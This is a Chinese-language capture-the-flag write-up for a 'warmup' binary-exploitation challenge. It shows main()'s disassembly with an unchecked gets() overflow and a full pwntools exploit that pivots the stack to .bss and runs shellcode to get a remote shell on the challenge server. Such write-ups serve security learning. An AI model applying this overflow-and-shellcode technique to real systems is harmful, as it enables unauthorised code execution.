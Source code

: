 不過我後來不是用這方法打就是了 ∑(￣□￣;)

看一下main()的asm：
```asm=
00000000004006ba <main>:
  4006ba:       55                      push   rbp
  4006bb:       48 89 e5                mov    rbp,rsp
  4006be:       48 81 ec 00 01 00 00    sub    rsp,0x100
  4006c5:       b8 00 00 00 00          mov    eax,0x0
  4006ca:       e8 a8 ff ff ff          call   400677 <init_proc>
  4006cf:       48 8d 3d c2 00 00 00    lea    rdi,[rip+0xc2]        # 400798 <_IO_stdin_used+0x8>
  4006d6:       e8 75 fe ff ff          call   400550 <puts@plt>
  4006db:       48 8d 85 00 ff ff ff    lea    rax,[rbp-0x100]
  4006e2:       48 89 c7                mov    rdi,rax
  4006e5:       b8 00 00 00 00          mov    eax,0x0
  4006ea:       e8 91 fe ff ff          call   400580 <gets@plt>
  4006ef:       48 8d 85 00 ff ff ff    lea    rax,[rbp-0x100]
  4006f6:       48 89 c7                mov    rdi,rax
  4006f9:       b8 00 00 00 00          mov    eax,0x0
  4006fe:       e8 6d fe ff ff          call   400570 <printf@plt>
  400703:       b8 00 00 00 00          mov    eax,0x0
  400708:       c9                      leave  
  400709:       c3                      ret
```

buf[]的位置可以靠rdp來改啊XD

>4006db: lea rax,[rbp-0x100]

先送一次payload把buf[]改到.bss上然後跳到0x4006db再撿一次gets()

第二次才上shellcode然後跳去.bss執行

然後要注意一下printf()也會吃buf[]的位置，payload要調一下

我是直接餵前面puts()的字串給他啦，第二次payload最前面放0x400798

直接從頭放shellcoe的話，printf()會爛掉 (´_ゝ`)

exploit：
```python=
from pwn import *

context.arch='amd64'
#r = process('./warmup')
r = remote('nothing.chal.ctf.westerns.tokyo',10001)
#gdb.attach(r)

bss = 0x601060
gadget1 = 0x4006db

payload = 'A' * 0x100 + p64(bss + 0x100) + p64(gadget1)

r.recv()
r.sendline(payload)

sc = asm(shellcraft.sh())
payload = p64(0x400798) + sc.ljust(0x100, 'A') + p64(bss + 0x8)

r.sendline(payload)
r.interactive()
r.close()
```

